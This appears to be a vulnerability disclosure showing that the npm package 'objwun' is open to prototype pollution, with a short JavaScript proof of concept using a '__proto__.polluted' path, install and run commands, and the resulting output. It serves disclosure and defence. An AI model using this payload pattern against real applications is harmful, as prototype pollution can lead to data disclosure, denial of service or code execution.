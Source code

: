 # Description

`objwun` is vulnerable to `Prototype Pollution`.

# Proof of Concept

1. Create the following PoC file:
```javascript
// poc.js
const { set } = require('objwun')

console.log('Before: ' + {}.polluted)
set({}, '__proto__.polluted', true)
console.log('After: ' + {}.polluted)
```
2. Execute the following commands in the terminal:
```bash
npm i objwun # install vulnerable package
node poc.js # run the PoC
```
3. Check the output:
```
Before: undefined
After: true
```

# Impact

`Prototype Pollution` leads to Information Disclosure/DoS/RCE.

